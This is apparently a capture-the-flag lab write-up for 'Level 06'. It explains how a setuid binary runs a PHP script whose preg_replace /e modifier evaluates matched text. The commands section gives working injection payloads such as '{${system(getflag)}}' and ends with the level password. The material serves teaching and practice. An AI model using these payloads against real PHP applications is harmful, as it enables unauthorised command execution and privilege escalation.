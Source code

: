 # LEVEL 06

## 💡 Explanation

In this level we have to:
1. We check the permissions of the files: `-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06`
2. Then, we check the content of `level06`, we can see that it executes the file `level06.php`
3. The file `level06.php`is calling the function `preg_replace`passing `e` as modifier => Deprecated since it executes the matching string!
4. We have to build a string that executes `getflag` and matches the regex => Something like `[x getflag]`
5. Last step, we need to get the output of the command, not the command itself... => `{${system(getflag)}}` Voilà!

## 👾 Commands

```
strings level06 => /usr/bin/php /home/user/level06/level06.php
echo '[x pwd]' > /tmp/lol; ./level06 /tmp/lol lol
echo '[x {$blub}]' > /tmp/lol; ./level06 /tmp/lol lol
echo '[x {${system(ls)}}]' > /tmp/lol; ./level06 /tmp/lol lol
echo '[x {${system(getflag)}}]' > /tmp/lol; ./level06 /tmp/lol lol
```

## 🔍 Resources

- [PHP preg_replace command - Errors/Exceptions](https://www.php.net/manual/en/function.preg-replace.php#refsect1-function.preg-replace-errors)
- [How to exploit preg_replace /e (1)](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)
- [How to exploit preg_replace /e (2)](https://isharaabeythissa.medium.com/command-injection-preg-replace-php-function-exploit-fdf987f767df)
- [How to exploit preg_replace /e (3)](https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/)
- [How to get the return value of a function](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)

## 🔥 Password
`wiok45aaoguiboiki2tuin6ub`
